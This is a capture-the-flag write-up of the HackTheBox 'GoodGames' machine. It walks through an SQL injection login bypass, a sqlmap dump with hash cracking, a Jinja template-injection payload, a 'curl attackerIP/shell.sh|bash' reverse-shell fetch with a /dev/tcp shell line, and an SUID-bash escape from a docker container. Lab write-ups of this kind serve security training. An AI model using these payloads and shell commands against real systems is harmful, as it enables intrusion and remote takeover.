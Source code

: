 ```yaml
---
title: "HackTheBox - GoodGames"
author: Nasrallah
description: ""
date: 2023-05-01 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, sqli, ssti, crack, docker, sqlmap]
img_path: /assets/img/hackthebox/machines/goodgames
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [GoodGames](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com). 

![](0.png)

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.11.130
Host is up (0.32s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
|_http-title: GoodGames | Community and Store
Service Info: Host: goodgames.htb
```

We found werkzeug web server running on port 80 with the hostname `goodgames.htb`, let's add it to `/etc/hosts`

## Web

Let's navigate to `goodgames.htb`

![](1.png)

We find a website related to video games. After navigating throught the website, we find a login form.

![](2.png)

Tried some default credentials but it didn't work, then tried sql injection and managed to login as admin with the payload `' or 1=1 -- -` after we proxy the traffic through burp.

![](3.png)

We get redirected to profile page and find a new link.

![](4.png)

The link goes to `internal-administration.goodgames.htb`, so we need to add it to `/etc/hosts`.

![](5.png)

We got a login page, and again i tried default credential and sql injection but neither worked this time.

## sqlmap

Since the first login form was vulnerable to sql injection, let's go to burp and copy the login request to a file.

```text
POST /login HTTP/1.1
Host: goodgames.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://goodgames.htb
DNT: 1
Connection: close
Referer: http://goodgames.htb/
Upgrade-Insecure-Requests: 1

email=asdf&password=asdf
```

Now we feed the file to `sqlmap` and let it does it's magic.

```bash
sqlmap -r login.req --batch
```

The injection is time based so this might take a long time.

After some time, we find a database called `main` and a table called `user`, let's dump the user table

```terminal
$ sqlmap -r login.req --batch -D main -T user --dump
[...]
Database: main
Table: user
[1 entry]
+----+-------+---------------------+----------------------------------+
| id | name  | email               | password                         |
+----+-------+---------------------+----------------------------------+
| 1  | admin | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+----+-------+---------------------+----------------------------------+
```

After some time, we manage to get the admin's hash. The hash looks like MD5 so we can use [crackstation](https://crackstation.net/) to crack it.

![](12.png)

We got the password, now let's login to flask volt with the credentials `admin:superadministrator`

![](6.png)

# **Foothold**

Going to `Settings` page, we find a form where we can change our name.

![](7.png)

The username we submitted got displayed back to us.

Since the the website uses python, one of the vulnerabilities to check for is `SSTI`, so let's change the name to `{{7*7}}`

![](8.png)

The website is vulnerable, now let's try executing command using payloads from [PayloadsAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread).

```python
\{\{ self.\_\_init\_\_.\_\_globals\_\_.\_\_builtins\_\_.\_\_import\_\_('os').popen('id').read() \}\}
```

![](9.png)

We run the command `id` and we got back root. Now let's get a reverse shell.

Instead of `id` i run `curl attackerIP/shell.sh|bash`, this command requests a the file `shell.sh` which has a reverse shell code `/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1` then pips it ot `bash` to get it executed.

![](10.png)

And we got a shell

# **Privilege Escalation**

We find ourselves in a docker container, let's check the network interfaces and ip addresses.

```terminal
root@3a453ab39d3d:/backend/project# ip a                                                                                                                      
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000                                                                   
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00                      
    inet 127.0.0.1/8 scope host lo                                             
       valid_lft forever preferred_lft forever                                 
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default                                                                  
    link/ether 02:42:ac:13:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0                                                                                         
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0                    
       valid_lft forever preferred_lft forever 
```

Our ip is `172.19.0.2`, this means the host is `172.19.0.1`.

I uploaded a static version of `nmap` and scanned the host.

```terminal
root@3a453ab39d3d:~# ./nmap 172.19.0.1                                          

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-05-06 11:56 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.19.0.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000028s latency).
Not shown: 1205 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:28:C6:BF:0E (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 14.60 seconds
```

We found two open ports, 22 running ssh and 80 which is http web server.

On the home directory we find user `augustus` but can't be found in /etc/passwd, so i tried to ssh to `172.19.0.1` as that user with the password we found earlier.


```terminal
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$
```

It worked! Now to get root is pretty easy, we copy `bash` to our current directory, exit out of ssh to get back to docker, and as root in the docker container, we change to ownership of `bash` to root and give it suid permission. Then we ssh back and run `bash -p`.

```terminal
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod +s bash
```

We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).